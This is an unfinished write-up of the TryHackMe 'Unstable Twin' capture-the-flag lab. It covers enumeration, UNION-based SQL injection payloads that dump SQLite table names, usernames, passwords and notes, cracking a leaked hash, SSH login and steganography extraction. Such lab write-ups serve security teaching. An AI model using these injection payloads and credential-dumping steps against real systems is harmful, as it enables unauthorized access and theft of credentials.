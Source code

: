 ***STILL N THE WORKS!***

Room: [Unstable Twin](https://tryhackme.com/room/unstabletwin)

Difficulty: Medium

Overview:



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

nmap -sV -sC -A -p- 10.10.121.127 -oN nmap.txt -T4

10.10.121.127 - room ip address

![nmap](https://user-images.githubusercontent.com/76821053/119569292-74feab80-bda6-11eb-94d8-abcdc12f2fa0.png)

There are two ports open:

22    →  OpenSSH 8.0

53    →  http server nginx 1.14.1

Lets check for hidden directories with a "Gobuster" scan:

![gobuster](https://user-images.githubusercontent.com/76821053/119570948-a8dad080-bda8-11eb-9959-bbf3511f6684.png)

The website doesn't have anything..

![emptyweb](https://user-images.githubusercontent.com/76821053/119571098-d9bb0580-bda8-11eb-8dfe-9c5d55e7122c.png)

It is empty, besides the /info directory i found with gobuster:

![webinfo](https://user-images.githubusercontent.com/76821053/119571268-0d962b00-bda9-11eb-9135-8e63697dd282.png)

Using "curl" we will try to get more information from the http headers:

![curlxgetcensored](https://user-images.githubusercontent.com/76821053/120239125-8a1b8480-c255-11eb-999d-10672b662826.png)

Found the build version number for Vincent server.

Since there was a json file in the directory i did a GET request with option -H to accept application/json:

![jsonfilecurl](https://user-images.githubusercontent.com/76821053/120120298-3432d800-c194-11eb-9f09-3058d585b789.png)

Found a new build number and a new server name.

Now the room hinted that the server is vulnerable to sql injection, we need to find a way point to exploit it.

The server talks about “login API” so we'll try to see if there is anykind of vulnerability there:

![logincurlapi](https://user-images.githubusercontent.com/76821053/120239642-9ce28900-c256-11eb-8eeb-361c406f31c8.png)

We now know that /api/login can be reached and that if we ran the command 2 times it gives us different ouputs. Meaning that there is 2 servers running, probably they read from diferent builds.

To start testing for vulnerabilities we can use a simple python script using a UNION sql injection. 

Github [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)  source:

![sqlunion](https://user-images.githubusercontent.com/76821053/120239998-707b3c80-c257-11eb-84ba-f016df12bf3d.png)

Script:

![pythonscript](https://user-images.githubusercontent.com/76821053/120240176-d7005a80-c257-11eb-8b9f-371341528f30.png)


We can start editing the script doing:

1' UNION SELECT 1--+ '"
1' UNION SELECT 1,2--+ '"
1' UNION SELECT 1,2,3--+ '"
1' UNION SELECT 1,2,3,4--+ '"

Till we got some kind of response from the server we keep adding numbers.. even dough the server was not ouputing errors.

I kept running the script and got a response from the database:

![execpython](https://user-images.githubusercontent.com/76821053/120240529-aec52b80-c258-11eb-97e1-024ccba1db80.png)

Remember we have to run the script twice, because there's two servers.

From the result of the scipt above we can see that the server has 2 tables. Now we need to find their names.

![sqlitepayloadall](https://user-images.githubusercontent.com/76821053/120242534-fa79d400-c25c-11eb-9a76-00d71bacf4f6.png)


To display the names of the tables i used the Integer/string based - Extract table name from PayloadAllTheThings.

payload = ["1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '"]

When combining the new string injection we needed to had number 1, like so:

original: 

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

Modified:

SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

Since we using a UNION based injection we can merged the strings like so:

1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '

We can also create a for loop so we don't have to do the request two times by reruning the script . 

![loopscript](https://user-images.githubusercontent.com/76821053/120242093-fbf6cc80-c25b-11eb-9ae6-4308906dd1f1.png)

![execloop](https://user-images.githubusercontent.com/76821053/120242201-38c2c380-c25c-11eb-8747-22895475d741.png)

Now to read the contents of the tables we will again modify the script and to be able to read the columns:

![readcontentoftables](https://user-images.githubusercontent.com/76821053/120242376-a373ff00-c25c-11eb-9743-a6932e7552d8.png)



I modified the string like so:

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--+ '

Added the 1, and substitute the ‘table_name’ for the users which was the 1 table name






With this information i can now reach its contents.

To list users and passwords:

UNION SELECT username, password FROM users

then merged in the script:

1' UNION SELECT username, password FROM users--+








Now the same process to read the contents of "notes":

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'--+





To extract information:

string:

SELECT notes FROM notes

merged:

1' UNION SELECT 1, notes FROM notes--+





Found a password:

eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

I used hash-identifier:



I used john the ripper to decrypt the hash:



i could also use crackstation.net to do this:



Password: experiment

Now that i have a password i will use ssh to connect to the target machine.

I assume that the user that has this password is mary_ann, because when i was enumerating the server mary_ann didn't had a colour but instead a ..continue..



I ran linpeas, did manual enumeration and only found a clue:



the content of server_notes.txt:



The api must have more information hidden so i used curl to try and download the images hinted on the message:

curl -v http://unstabletwin.thm/get_image?name=vincent --output vincent.jpg 












I did this command for every user and downloaded all the files in .jpg format.

example images:



Since they were all images i used steghide to see if there was any hidden content and i was right:



I read the contents of each extracted files:



There was a tip about arranging the children by the colours of the rainbow.



So i merged a big string from contents of each extracted file in rainbow colour order from red to green:

1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

I tried many different decoders till i find the right one at https://gchq.github.io/CyberChef/:



The string was base62.
